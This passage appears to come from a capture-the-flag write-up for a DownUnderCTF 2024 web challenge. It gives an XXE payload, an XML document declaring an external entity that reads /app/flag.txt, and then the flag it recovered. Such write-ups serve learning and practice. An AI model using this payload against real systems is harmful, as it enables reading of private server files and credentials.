 ![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-12.png)

To get the flag, use the following payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE kaibro[
    <!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<root>
    <feedback>&xxe;</feedback>
</root>
```

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-13.png)

Flag: `DUCTF{emU_say$_he!!0_h0!@_ci@0}`

## Web : co2 
